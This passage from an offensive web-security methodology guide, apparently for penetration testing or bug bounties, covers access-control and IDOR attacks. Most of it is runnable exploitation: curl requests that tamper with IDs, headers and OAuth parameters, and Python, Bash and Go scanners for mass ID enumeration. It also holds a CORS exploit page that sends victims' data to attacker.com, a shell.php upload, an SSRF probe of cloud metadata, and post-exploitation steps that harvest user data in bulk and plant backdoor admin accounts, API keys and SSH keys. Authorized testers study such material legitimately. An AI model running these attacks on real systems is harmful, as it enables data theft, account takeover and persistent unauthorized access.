  -H "Authorization: Bearer $TOKEN" \
  -d '{"permissions": ["admin", "user"], "user_id": 1}'
```

### 5.5 Function-Level Access Control (Missing Authorization)

#### 5.5.1 Missing Authentication on Sensitive Endpoints

**Vulnerable Endpoint:**
```
GET /api/admin/users
```

**Exploitation:**
```bash
# Try without authentication
curl "https://target.com/api/admin/users"
curl "https://target.com/api/admin"
curl "https://target.com/api/users"
```

#### 5.5.2 Missing Authorization on Admin Functions

**Vulnerable Endpoint:**
```
POST /api/users/1/delete
```

**Exploitation:**
```bash
# Try as normal user
curl -X DELETE "https://target.com/api/users/1" -H "Authorization: Bearer $USER_TOKEN"
curl -X DELETE "https://target.com/api/users/1/delete" -H "Authorization: Bearer $USER_TOKEN"
```

#### 5.5.3 Missing Authorization on Sensitive Data Export

**Vulnerable Endpoint:**
```
GET /api/export/all
```

**Exploitation:**
```bash
# Try as normal user
curl "https://target.com/api/export/all" -H "Authorization: Bearer $USER_TOKEN"
curl "https://target.com/api/export/users" -H "Authorization: Bearer $USER_TOKEN"
curl "https://target.com/api/export/data" -H "Authorization: Bearer $USER_TOKEN"
```

#### 5.5.4 Missing Authorization on Configuration Endpoints

**Vulnerable Endpoint:**
```
GET /api/config
```

**Exploitation:**
```bash
# Try as normal user
curl "https://target.com/api/config" -H "Authorization: Bearer $USER_TOKEN"
curl "https://target.com/api/settings" -H "Authorization: Bearer $USER_TOKEN"
curl "https://target.com/api/configuration" -H "Authorization: Bearer $USER_TOKEN"
```

### 5.6 Forced Browsing / Direct Access

#### 5.6.1 Direct File Access

**Vulnerable Endpoint:**
```
https://target.com/files/report_123.pdf
```

**Exploitation:**
```bash
# Enumerate file paths
for i in $(seq 1 1000); do
  curl "https://target.com/files/report_$i.pdf" -H "Authorization: Bearer $TOKEN"
done

# Try common file names
for file in $(cat common_files.txt); do
  curl "https://target.com/files/$file" -H "Authorization: Bearer $TOKEN"
done
```

#### 5.6.2 Direct Directory Access

**Vulnerable Endpoint:**
```
https://target.com/uploads/2024/
```

**Exploitation:**
```bash
# Try directory listing
curl "https://target.com/uploads/"
curl "https://target.com/uploads/2024/"
curl "https://target.com/uploads/images/"
curl "https://target.com/uploads/documents/"
```

#### 5.6.3 Hidden Admin Directories

**Vulnerable Endpoint:**
```
https://target.com/admin/
```

**Exploitation:**
```bash
# Enumerate admin directories
for admin in $(cat admin_paths.txt); do
  curl "https://target.com/$admin" -o /dev/null -w "%{http_code} $admin\n"
done
```

### 5.7 Parameter Tampering

#### 5.7.1 Cookie Tampering

**Vulnerable Endpoint:**
```
GET /api/profile
Cookie: user_id=123
```

**Exploitation:**
```bash
# Modify cookie values
curl "https://target.com/api/profile" -H "Cookie: user_id=1"
curl "https://target.com/api/profile" -H "Cookie: user_id=admin"
curl "https://target.com/api/profile" -H "Cookie: user_id=root"

# Try other cookie names
curl "https://target.com/api/profile" -H "Cookie: uid=1"
curl "https://target.com/api/profile" -H "Cookie: user=1"
```

#### 5.7.2 Header Tampering

**Vulnerable Endpoint:**
```
GET /api/profile
Headers: X-User-ID: 123
```

**Exploitation:**
```bash
# Modify headers
curl "https://target.com/api/profile" -H "X-User-ID: 1"
curl "https://target.com/api/profile" -H "X-User-Id: 1"
curl "https://target.com/api/profile" -H "User-ID: 1"
curl "https://target.com/api/profile" -H "X-Forwarded-User: 1"
curl "https://target.com/api/profile" -H "X-Original-User: 1"
```

#### 5.7.3 Host Header Tampering

**Vulnerable Endpoint:**
```
GET /api/profile
Host: target.com
```

**Exploitation:**
```bash
# Change Host header to internal services
curl "https://target.com/api/profile" -H "Host: internal.target.com"
curl "https://target.com/api/profile" -H "Host: admin.target.com"
curl "https://target.com/api/profile" -H "Host: localhost"
curl "https://target.com/api/profile" -H "Host: 127.0.0.1"
```

#### 5.7.4 Referer Header Tampering

**Vulnerable Endpoint:**
```
GET /api/profile
Referer: https://target.com/user/123
```

**Exploitation:**
```bash
# Change Referer to admin pages
curl "https://target.com/api/profile" -H "Referer: https://target.com/admin"
curl "https://target.com/api/profile" -H "Referer: https://target.com/admin/users"
curl "https://target.com/api/profile" -H "Referer: https://target.com/superadmin"
```

### 5.8 Referer-Based Access Control Bypass

**Vulnerable Pattern:**
```python
def check_access(request):
    referer = request.headers.get('Referer')
    if 'admin' in referer:
        return True
    return False
```

**Exploitation:**
```bash
# Add admin to referer
curl "https://target.com/api/sensitive" -H "Referer: https://target.com/admin/dashboard"
curl "https://target.com/api/sensitive" -H "Referer: https://target.com/admin"
curl "https://target.com/api/sensitive" -H "Referer: https://admin.target.com"
```

### 5.9 Race Conditions in Authorization

#### 5.9.1 Token Creation Race

**Vulnerable Pattern:**
```python
def create_activation_token(email):
    # Check if user exists
    if not User.exists(email):
        return {"error": "User not found"}
    
    # Generate token
    token = generate_token(email)
    return {"token": token}
```

**Exploitation:**
```bash
# Send requests quickly to bypass checks
for i in $(seq 1 10); do
  curl -X POST "https://target.com/api/create_token" -d "email=admin@example.com" &
done
```

#### 5.9.2 Role Update Race

**Vulnerable Pattern:**
```python
def update_role(user_id, role):
    # Check if user has permission
    if not has_permission(request.user):
        return {"error": "Permission denied"}
    
    # Update role
    User.update(user_id, role=role)
```

**Exploitation:**
```bash
# Send concurrent role update requests
for i in $(seq 1 10); do
  curl -X POST "https://target.com/api/update_role" -d "user_id=123&role=admin" &
done
```

### 5.10 Logical Flaws in Multi-Step Processes

#### 5.10.1 Step Skipping

**Vulnerable Process:**
```
Step 1: Verify identity
Step 2: Update password
Step 3: Confirm changes
```

**Exploitation:**
```bash
# Skip directly to step 2
curl -X POST "https://target.com/api/update_password" -d "password=newpass"

# Skip to step 3
curl -X POST "https://target.com/api/confirm_changes" -d "confirmed=true"
```

#### 5.10.2 Step Reordering

**Vulnerable Process:**
```
Step 1: Enter old password
Step 2: Enter new password
Step 3: Confirm new password
```

**Exploitation:**
```bash
# Reverse order
curl -X POST "https://target.com/api/confirm_password" -d "password=oldpass"
curl -X POST "https://target.com/api/update_password" -d "password=newpass"
```

#### 5.10.3 Incomplete Step Validation

**Vulnerable Pattern:**
```python
if request.step == 2 and not request.old_password:
    return {"error": "Old password required"}
```

**Exploitation:**
```bash
# Complete step 2 without proper validation
curl -X POST "https://target.com/api/update_password" -d "step=2&new_password=admin123"
```

### 5.11 Business Logic Bypass

#### 5.11.1 Order Creation with Negative Price

**Vulnerable Endpoint:**
```
POST /api/orders
{"product_id": 1, "quantity": 1, "price": 100}
```

**Exploitation:**
```bash
# Set negative price
curl -X POST "https://target.com/api/orders" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"product_id": 1, "quantity": 1, "price": -100}'

# Set zero price
curl -X POST "https://target.com/api/orders" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"product_id": 1, "quantity": 1, "price": 0}'
```

#### 5.11.2 Discount Abuse

**Vulnerable Endpoint:**
```
POST /api/orders
{"product_id": 1, "quantity": 1, "discount_code": "SAVE10"}
```

**Exploitation:**
```bash
# Try invalid discount codes
for code in $(cat discount_codes.txt); do
  curl -X POST "https://target.com/api/orders" \
    -H "Authorization: Bearer $TOKEN" \
    -d "{\"product_id\": 1, \"quantity\": 1, \"discount_code\": \"$code\"}"
done

# Try discount code injection
curl -X POST "https://target.com/api/orders" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"product_id": 1, "quantity": 1, "discount_code": "ADMIN99"}'
```

#### 5.11.3 Quantity Limit Bypass

**Vulnerable Endpoint:**
```
POST /api/orders
{"product_id": 1, "quantity": 1}
```

**Exploitation:**
```bash
# Set quantity above limit
curl -X POST "https://target.com/api/orders" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"product_id": 1, "quantity": 9999}'

# Use array injection for quantity
curl -X POST "https://target.com/api/orders" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"product_id": 1, "quantity": [1, 1, 1, 1, 1]}'
```

#### 5.11.4 Currency Manipulation

**Vulnerable Endpoint:**
```
POST /api/orders
{"product_id": 1, "currency": "USD", "amount": 100}
```

**Exploitation:**
```bash
# Change to weaker currency
curl -X POST "https://target.com/api/orders" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"product_id": 1, "currency": "TRY", "amount": 100}'
```

#### 5.11.5 Shipping Address Override

**Vulnerable Endpoint:**
```
POST /api/orders
{"product_id": 1, "shipping_address": "123 Main St"}
```

**Exploitation:**
```bash
# Use someone else's address
curl -X POST "https://target.com/api/orders" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"product_id": 1, "shipping_address": "1 Admin St"}'

# Use address ID
curl -X POST "https://target.com/api/orders" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"product_id": 1, "address_id": 1}'
```

### 5.12 Cross-Tenant Data Leakage

#### 5.12.1 Tenant ID Tampering

**Vulnerable Endpoint:**
```
GET /api/tenant/abc123/users
```

**Exploitation:**
```bash
# Try other tenant IDs
for tenant in $(cat tenant_ids.txt); do
  curl "https://target.com/api/tenant/$tenant/users" -H "Authorization: Bearer $TOKEN"
done

# Try default tenants
curl "https://target.com/api/tenant/default/users"
curl "https://target.com/api/tenant/public/users"
```

#### 5.12.2 Subdomain Tenant Leakage

**Vulnerable Pattern:**
```
https://tenant1.target.com/api/users
```

**Exploitation:**
```bash
# Try other subdomains
for tenant in $(cat tenants.txt); do
  curl "https://$tenant.target.com/api/users" -H "Authorization: Bearer $TOKEN"
done

# Try wildcard subdomain
curl "https://*.target.com/api/users"
```

### 5.13 GraphQL Access Control Bypasses

#### 5.13.1 GraphQL Introspection

**Vulnerable Endpoint:**
```
POST /graphql
query { __schema { types { name fields { name } } } }
```

**Exploitation:**
```bash
# Query all types
curl -X POST "https://target.com/graphql" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"query": "query { __schema { types { name fields { name } } } }"}'

# Query type details
curl -X POST "https://target.com/graphql" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"query": "query { __type(name: \"User\") { fields { name type { name } } } }"}'
```

#### 5.13.2 GraphQL Alias Attack

**Vulnerable Endpoint:**
```
POST /graphql
query { user(id: 123) { name email } }
```

**Exploitation:**
```bash
# Query multiple users with aliases
curl -X POST "https://target.com/graphql" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"query": "query { user1: user(id: 1) { name email } user2: user(id: 2) { name email } }"}'

# Query all users with aliases
for i in $(seq 1 100); do
  ALIASES="$ALIASES user$i: user(id: $i) { name email }"
done
curl -X POST "https://target.com/graphql" \
  -H "Authorization: Bearer $TOKEN" \
  -d "{\"query\": \"query { $ALIASES }\"}"
```

#### 5.13.3 GraphQL Fragment Attack

**Vulnerable Endpoint:**
```
POST /graphql
query { user(id: 123) { name email } }
```

**Exploitation:**
```bash
# Use fragments to query sensitive data
curl -X POST "https://target.com/graphql" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"query": "query { user(id: 1) { ...UserFields } } fragment UserFields on User { name email password phone address ssn }"}'
```

#### 5.13.4 GraphQL Batch Request Attack

**Vulnerable Endpoint:**
```
POST /graphql
[{"query": "query { user(id: 123) { name } }"}]
```

**Exploitation:**
```bash
# Batch multiple queries
curl -X POST "https://target.com/graphql" \
  -H "Authorization: Bearer $TOKEN" \
  -d '[{"query": "query { user(id: 1) { name email } }"}, {"query": "query { user(id: 2) { name email } }"}]'
```

#### 5.13.5 GraphQL Depth Attack

**Vulnerable Endpoint:**
```
POST /graphql
query { user(id: 123) { name } }
```

**Exploitation:**
```bash
# Query nested fields to cause DoS
curl -X POST "https://target.com/graphql" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"query": "query { user(id: 1) { friends { friends { friends { friends { name } } } } } }"}'
```

#### 5.13.6 GraphQL Directives Bypass

**Vulnerable Endpoint:**
```
POST /graphql
query { user(id: 123) { name email } }
```

**Exploitation:**
```bash
# Use @include directive
curl -X POST "https://target.com/graphql" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"query": "query { user(id: 1) { name email @include(if: true) } }"}'

# Use @skip directive
curl -X POST "https://target.com/graphql" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"query": "query { user(id: 1) { name email @skip(if: false) } }"}'
```

---

## Phase 6: Advanced Attacks – Microservices, OAuth2, Serverless, Cloud

### 6.1 Microservices Authorization Bypass

#### 6.1.1 Service-to-Service Auth Bypass

**Vulnerable Pattern:**
```python
# Service A trusts Service B without validation
def get_user_data(user_id):
    # No auth check because it's called by Service B
    return db.get_user(user_id)
```

**Exploitation:**
```bash
# Directly call Service A's internal endpoint
curl "http://service-a.internal/api/users/1" -H "X-Service-Auth: internal"

# Use service account token
curl "http://service-a.internal/api/users/1" -H "Authorization: Bearer $SERVICE_TOKEN"
```

#### 6.1.2 Internal API Exposure

**Vulnerable Endpoint:**
```
http://internal-api.target.com/users
```

**Exploitation:**
```bash
# Access internal APIs
curl "http://internal-api.target.com/users" -H "Authorization: Bearer $TOKEN"
curl "http://internal-api.target.com/admin" -H "Authorization: Bearer $TOKEN"
```

#### 6.1.3 Service Mesh Bypass

**Vulnerable Pattern:**
```yaml
# Istio authorization policy
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: httpbin
spec:
  action: DENY
  rules:
  - from:
    - source:
        principals: ["cluster.local/ns/default/sa/service-a"]
```

**Exploitation:**
```bash
# Use different service account
curl "http://service-b.target.com/api/sensitive" -H "Authorization: Bearer $TOKEN_B"
```

### 6.2 OAuth2 / OpenID Connect Scope Escalation

#### 6.2.1 Scope Parameter Injection

**Vulnerable Endpoint:**
```
GET /oauth/authorize?client_id=123&scope=read&response_type=code
```

**Exploitation:**
```bash
# Add admin scope
curl "https://target.com/oauth/authorize?client_id=123&scope=admin&response_type=code"

# Add all scopes
curl "https://target.com/oauth/authorize?client_id=123&scope=*&response_type=code"
```

#### 6.2.2 Redirect URI Bypass

**Vulnerable Endpoint:**
```
GET /oauth/authorize?client_id=123&redirect_uri=https://target.com/callback
```

**Exploitation:**
```bash
# Change redirect_uri to attacker domain
curl "https://target.com/oauth/authorize?client_id=123&redirect_uri=https://attacker.com/callback"

# Use open redirect bypass
curl "https://target.com/oauth/authorize?client_id=123&redirect_uri=https://target.com/redirect?url=https://attacker.com"
```

#### 6.2.3 State Parameter Bypass

**Vulnerable Endpoint:**
```
GET /oauth/authorize?client_id=123&state=random
```

**Exploitation:**
```bash
# Remove state parameter
curl "https://target.com/oauth/authorize?client_id=123"

# Predictable state
curl "https://target.com/oauth/authorize?client_id=123&state=123"

# Reuse state
curl "https://target.com/oauth/authorize?client_id=123&state=REUSED_STATE"
```

#### 6.2.4 Authorization Code Reuse

**Vulnerable Endpoint:**
```
POST /oauth/token
grant_type=authorization_code&code=abc123&redirect_uri=https://target.com/callback
```

**Exploitation:**
```bash
# Reuse authorization code
curl -X POST "https://target.com/oauth/token" \
  -d "grant_type=authorization_code&code=abc123&redirect_uri=https://target.com/callback"

# Use code for different client
curl -X POST "https://target.com/oauth/token" \
  -d "grant_type=authorization_code&code=abc123&client_id=456"
```

### 6.3 Serverless Function Authorization

#### 6.3.1 IAM Permission Bypass

**Vulnerable Policy:**
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "s3:*",
      "Resource": "*"
    }
  ]
}
```

**Exploitation:**
```bash
# Access all S3 buckets
aws s3 ls --profile target
aws s3 cp s3://target-bucket/secret.txt . --profile target
```

#### 6.3.2 Function Resource Policy Bypass

**Vulnerable Policy:**
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": "*",
      "Action": "lambda:InvokeFunction",
      "Resource": "arn:aws:lambda:us-east-1:123456789012:function:admin-function"
    }
  ]
}
```

**Exploitation:**
```bash
# Invoke function from anywhere
aws lambda invoke --function-name admin-function --payload '{"user": "attacker"}' output.json
```

### 6.4 Cloud Services (AWS IAM, GCP IAM, Azure RBAC)

#### 6.4.1 IAM Role Assumption Bypass

**Vulnerable Policy:**
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {"AWS": "*"},
      "Action": "sts:AssumeRole",
      "Condition": {
        "StringEquals": {
          "aws:SourceIp": "10.0.0.0/8"
        }
      }
    }
  ]
}
```

**Exploitation:**
```bash
# Assume role from internal network
aws sts assume-role --role-arn arn:aws:iam::123456789012:role/admin-role --role-session-name attacker
```

#### 6.4.2 S3 Bucket Permission Bypass

**Vulnerable Policy:**
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PublicRead",
      "Effect": "Allow",
      "Principal": "*",
      "Action": ["s3:GetObject"],
      "Resource": ["arn:aws:s3:::target-bucket/*"]
    }
  ]
}
```

**Exploitation:**
```bash
# List bucket contents
aws s3 ls s3://target-bucket/ --no-sign-request
# Or with public bucket URL
curl "https://target-bucket.s3.amazonaws.com/"

# Download all files
aws s3 sync s3://target-bucket/ ./ --no-sign-request
```

#### 6.4.3 GCP IAM Policy Bypass

**Vulnerable Policy:**
```json
{
  "bindings": [
    {
      "role": "roles/viewer",
      "members": ["allUsers"]
    }
  ]
}
```

**Exploitation:**
```bash
# Access GCP resources
gcloud auth login
gcloud projects list
gcloud compute instances list
```

### 6.5 Kubernetes RBAC Bypass

#### 6.5.1 ClusterRole Binding Bypass

**Vulnerable Binding:**
```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: view-binding
subjects:
- kind: ServiceAccount
  name: default
  namespace: default
roleRef:
  kind: ClusterRole
  name: view
  apiGroup: rbac.authorization.k8s.io
```

**Exploitation:**
```bash
# Access Kubernetes API
kubectl auth can-i get pods --all-namespaces
kubectl get pods --all-namespaces
kubectl get secrets --all-namespaces
```

#### 6.5.2 Pod Security Policy Bypass

**Vulnerable Policy:**
```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: privileged
spec:
  privileged: true
  allowPrivilegeEscalation: true
```

**Exploitation:**
```bash
# Deploy privileged pod
kubectl apply -f privileged-pod.yaml
kubectl exec -it privileged-pod -- /bin/bash
```

### 6.6 API Gateway Authorization Bypasses

#### 6.6.1 Gateway Routing Bypass

**Vulnerable Pattern:**
```yaml
# Kong Gateway route
routes:
- name: admin-api
  paths: ["/admin"]
  service: admin-service
```

**Exploitation:**
```bash
# Access admin API with different path
curl "https://api.target.com//admin"  # Double slash
curl "https://api.target.com/./admin" # Dot path
curl "https://api.target.com/..;/admin" # Path traversal
```

#### 6.6.2 Gateway Header Bypass

**Vulnerable Pattern:**
```yaml
# Kong Gateway plugin
plugins:
- name: key-auth
  config:
    key_names: ["apikey"]
```

**Exploitation:**
```bash
# Use different header names
curl "https://api.target.com/api/users" -H "apikey: valid-key"
curl "https://api.target.com/api/users" -H "APIKEY: valid-key"
curl "https://api.target.com/api/users" -H "X-API-Key: valid-key"
```

### 6.7 CORS Misconfiguration Exploitation

**Vulnerable Endpoint:**
```
GET /api/users
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<!-- Create malicious page -->
<html>
<script>
fetch('https://target.com/api/users', {
  credentials: 'include'
}).then(r => r.json()).then(data => {
  // Send data to attacker
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
</script>
</html>
```

### 6.8 File Upload IDOR

#### 6.8.1 Uploading to Other User's Directory

**Vulnerable Endpoint:**
```
POST /api/upload
{"user_id": 123, "file": "data.jpg"}
```

**Exploitation:**
```bash
# Upload file to another user
curl -X POST "https://target.com/api/upload" \
  -H "Authorization: Bearer $TOKEN" \
  -F "user_id=1" \
  -F "file=@shell.php"

# Use different field name
curl -X POST "https://target.com/api/upload" \
  -H "Authorization: Bearer $TOKEN" \
  -F "uid=1" \
  -F "file=@shell.php"
```

#### 6.8.2 Accessing Other User's Files

**Vulnerable Endpoint:**
```
GET /api/files/123/avatar.jpg
```

**Exploitation:**
```bash
# Enumerate file IDs
for i in $(seq 1 1000); do
  curl "https://target.com/api/files/$i/avatar.jpg" -H "Authorization: Bearer $TOKEN"
done

# Try different file types
curl "https://target.com/api/files/1/profile.jpg"
curl "https://target.com/api/files/1/document.pdf"
```

---

## Phase 7: Automation & Tooling – Full Arsenal

### 7.1 Core Tools

| Tool | Purpose | Command |
|------|---------|---------|
| **ffuf** | ID enumeration, parameter fuzzing | `ffuf -u https://target.com/api/users/FUZZ -w ids.txt` |
| **gobuster** | Directory/file brute force | `gobuster dir -u https://target.com -w dirs.txt` |
| **gospider** | Spidering and URL discovery | `gospider -s https://target.com -d 3` |
| **Nuclei** | Vulnerability scanning | `nuclei -l endpoints.txt -t ~/nuclei-templates/access-control/` |
| **Burp Suite** | Manual testing, proxy, automation | Burp Professional/Community |
| **ZAP** | Automated scanning, fuzzing | `zap-cli quick-scan -spider -scanner -t https://target.com` |
| **Arjun** | Parameter discovery | `arjun -u https://target.com/api/users -m GET` |
| **GraphQL Voyager** | GraphQL schema visualization | `npx @apollo/sandbox` |
| **AuthMatrix** (Burp) | Authorization matrix testing | Burp Extension |
| **Autorize** (Burp) | Automatic authorization testing | Burp Extension |
| **Turbo Intruder** | High-speed request automation | Burp Extension |
| **Param Miner** | Parameter discovery | Burp Extension |
| **AWS CLI** | AWS resource enumeration | `aws s3 ls`, `aws iam list-users` |
| **GCloud SDK** | GCP resource enumeration | `gcloud projects list` |
| **kubectl** | Kubernetes API access | `kubectl auth can-i` |

### 7.2 Custom Fuzzing Scripts

#### 7.2.1 Python IDOR Enumeration Script

```python
#!/usr/bin/env python3
import requests
import json
import time
from concurrent.futures import ThreadPoolExecutor

class IDORScanner:
    def __init__(self, base_url, token, headers=None):
        self.base_url = base_url
        self.token = token
        self.headers = headers or {'Authorization': f'Bearer {token}'}
        self.results = {}
    
    def test_id(self, endpoint, id_value, params=None):
        """Test a single ID value"""
        url = f"{self.base_url}{endpoint}".replace('{id}', str(id_value))
        try:
            resp = requests.get(url, headers=self.headers, params=params, timeout=5)
            if resp.status_code == 200 and resp.text:
                # Check for sensitive data indicators
                sensitive_patterns = ['email', 'phone', 'ssn', 'password', 'address']
                if any(pattern in resp.text.lower() for pattern in sensitive_patterns):
                    self.results[id_value] = {
                        'status': resp.status_code,
                        'length': len(resp.text),
                        'data': resp.text[:200],
                        'vulnerable': True
                    }
                else:
                    self.results[id_value] = {
                        'status': resp.status_code,
                        'length': len(resp.text),
                        'vulnerable': False
                    }
        except Exception as e:
            self.results[id_value] = {'error': str(e)}
    
    def scan_range(self, endpoint, start, end, params=None, workers=50):
        """Scan a range of IDs"""
        with ThreadPoolExecutor(max_workers=workers) as executor:
            futures = []
            for i in range(start, end + 1):
                future = executor.submit(self.test_id, endpoint, i, params)
                futures.append(future)
            
            for future in futures:
                future.result()
        
        return self.results
    
    def generate_report(self):
        """Generate JSON report"""
        report = {
            'scanner': 'IDORScanner',
            'timestamp': time.time(),
            'total_tested': len(self.results),
            'vulnerable': [k for k, v in self.results.items() if v.get('vulnerable', False)],
            'results': self.results
        }
        return json.dumps(report, indent=2)

# Usage
scanner = IDORScanner('https://target.com/api/users/{id}', 'user_token_here')
results = scanner.scan_range('/profile', 1, 1000)
print(scanner.generate_report())
```

#### 7.2.2 Bash ID Enumeration Script

```bash
#!/bin/bash
# id_enum.sh - Enumerate numeric IDs

TOKEN="your_token_here"
BASE_URL="https://target.com/api"
OUTPUT_FILE="id_results.txt"

echo "Starting ID enumeration..." > $OUTPUT_FILE

for i in $(seq 1 1000); do
    response=$(curl -s -X GET "$BASE_URL/users/$i" \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json")
    
    status_code=$(echo "$response" | jq -r '.status_code // empty')
    if [ -n "$response" ] && [[ "$response" != *"error"* ]] && [[ "$response" != *"unauthorized"* ]]; then
        echo "VULNERABLE: User $i" >> $OUTPUT_FILE
        echo "$response" | jq '.' >> $OUTPUT_FILE
        echo "---" >> $OUTPUT_FILE
    fi
done

echo "Scan complete. Results saved to $OUTPUT_FILE"
```

#### 7.2.3 Go IDOR Scanner

```go
package main

import (
    "encoding/json"
    "fmt"
    "io/ioutil"
    "net/http"
    "sync"
    "time"
)

type IDORScanner struct {
    baseURL   string
    token     string
    client    *http.Client
    results   map[int]string
    mu        sync.Mutex
}

func NewIDORScanner(baseURL, token string) *IDORScanner {
    return &IDORScanner{
        baseURL: baseURL,
        token:   token,
        client:  &http.Client{Timeout: 5 * time.Second},
        results: make(map[int]string),
    }
}

func (s *IDORScanner) ScanID(endpoint string, id int) {
    url := fmt.Sprintf("%s%s", s.baseURL, endpoint)
    url = fmt.Sprintf(url, id)
    
    req, _ := http.NewRequest("GET", url, nil)
    req.Header.Set("Authorization", fmt.Sprintf("Bearer %s", s.token))
    
    resp, err := s.client.Do(req)
    if err != nil {
        s.mu.Lock()
        s.results[id] = fmt.Sprintf("Error: %v", err)
        s.mu.Unlock()
        return
    }
    defer resp.Body.Close()
    
    body, _ := ioutil.ReadAll(resp.Body)
    s.mu.Lock()
    s.results[id] = string(body)
    s.mu.Unlock()
}

func (s *IDORScanner) ScanRange(endpoint string, start, end int) {
    var wg sync.WaitGroup
    for i := start; i <= end; i++ {
        wg.Add(1)
        go func(id int) {
            defer wg.Done()
            s.ScanID(endpoint, id)
        }(i)
    }
    wg.Wait()
}

func main() {
    scanner := NewIDORScanner("https://target.com/api/users/%d", "user_token_here")
    scanner.ScanRange("/profile", 1, 1000)
    
    jsonResults, _ := json.MarshalIndent(scanner.results, "", "  ")
    fmt.Println(string(jsonResults))
}
```

### 7.3 Burp Suite Extensions

| Extension | Purpose | Use Case |
|-----------|---------|----------|
| **AuthMatrix** | Authorization matrix testing | Map roles to endpoints |
| **Autorize** | Automatic authorization testing | Detect unauthenticated access |
| **Turbo Intruder** | High-speed automation | Enumerate large ID ranges |
| **Param Miner** | Parameter discovery | Find hidden ID parameters |
| **JWT Editor** | JWT manipulation | Modify JWT claims |
| **JSON Web Token Attacker** | JWT attack automation | Test JWT vulnerabilities |
| **AWS Extender** | AWS API testing | Test cloud permissions |
| **GraphQL Raider** | GraphQL testing | Test GraphQL auth |
| **Upload Scanner** | File upload testing | Test file upload IDs |

### 7.4 Nuclei Templates

```yaml
# idor-example.yaml
id: IDOR-Detect
info:
  name: IDOR Detection
  severity: high
requests:
  - raw:
      - |
        GET /api/users/1 HTTP/1.1
        Host: {{Hostname}}
        Authorization: Bearer {{token}}
        
      - |
        GET /api/users/2 HTTP/1.1
        Host: {{Hostname}}
        Authorization: Bearer {{token}}
    
    matchers:
      - type: word
        words:
          - "email"
          - "phone"
          - "address"
          - "ssn"
        condition: or
```

### 7.5 Mass Scanning

```bash
# Mass scan for IDOR vulnerabilities
nuclei -l domains.txt -t ~/nuclei-templates/idor/ -o idor_results.txt

# Mass scan for admin endpoints
ffuf -u "https://target.com/FUZZ" -w ~/wordlists/admin_paths.txt -mc 200 -o admin_endpoints.json

# Mass scan for GraphQL endpoints
ffuf -u "https://target.com/FUZZ" -w ~/wordlists/graphql_paths.txt -mc 200,405

# Mass scan for exposed files
gospider -s https://target.com -d 3 | grep -E "\.(txt|log|sql|bak|json|xml|yml|yaml|properties)$"
```

---

## Phase 8: Post-Exploitation – Impact & Chaining

### 8.1 Account Takeover & Data Breach

```bash
# After finding IDOR, get all user data
for user in $(seq 1 1000); do
  curl "https://target.com/api/users/$user" -H "Authorization: Bearer $TOKEN" >> all_users.json
done

# Get sensitive data
for order in $(seq 1 10000); do
  curl "https://target.com/api/orders/$order" -H "Authorization: Bearer $TOKEN" >> all_orders.json
done

# Download all files
for file in $(cat file_ids.txt); do
  curl "https://target.com/api/files/$file" -H "Authorization: Bearer $TOKEN" -o "file_$file"
done
```

### 8.2 Chaining with Other Vulns

#### 8.2.1 IDOR + XSS

```html
<!-- IDOR in user profile with reflected XSS -->
GET /api/users/1?name=<script>alert(document.cookie)</script>
```

#### 8.2.2 IDOR + CSRF

```html
<!-- CSRF attack using IDOR -->
<form action="https://target.com/api/users/1/delete" method="POST">
  <input type="hidden" name="csrf_token" value="{{csrf_token}}">
</form>
<script>document.forms[0].submit();</script>
```

#### 8.2.3 IDOR + SSRF

```bash
# IDOR causing SSRF
curl "https://target.com/api/export?url=http://169.254.169.254/latest/meta-data/"
```

#### 8.2.4 IDOR + SQLi

```bash
# IDOR with SQL injection
curl "https://target.com/api/users/1' OR '1'='1"
```

### 8.3 Persistence & Backdoors

```bash
# Create admin backdoor user
curl -X POST "https://target.com/api/users" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"username": "backdoor", "password": "backdoor", "role": "admin"}'

# Create API key with admin privileges
curl -X POST "https://target.com/api/api-keys" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"name": "backdoor", "permissions": ["admin"]}'

# Add SSH public key
curl -X POST "https://target.com/api/users/1/ssh-keys" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"key": "ssh-rsa AAAAB3..."}'
```

### 8.4 Reporting Impact Statement Template

```markdown
## Impact Assessment

### Vulnerability: [Vulnerability Type] - [CVE if applicable]

**Affected Endpoint:** `[endpoint]`

**Description:**
[Brief description of the vulnerability]

**Impact:**
1. **Data Breach:** Access to sensitive user data including:
   - Personal information (name, email, phone, address)
   - Financial information (payment details, order history)
   - Confidential documents (files, messages, internal data)
   - [Other sensitive data types]

2. **Account Takeover:** Ability to take over any user account:
   - Reset passwords
   - Access sessions
   - Modify account settings
   - [Other account actions]

3. **Privilege Escalation:** Access to administrative functions:
   - User management
   - System configuration
   - Data export
   - [Other administrative functions]

4. **Business Impact:**
   - Loss of customer trust
   - Regulatory compliance violations (GDPR, HIPAA, PCI-DSS)
   - Financial loss
   - Reputation damage

**CVSS Score:** [Score] (High/Critical)

**Proof of Concept:**
[Attach screenshots, request/response examples]

**Remediation:**
1. Implement proper authorization checks on all endpoints
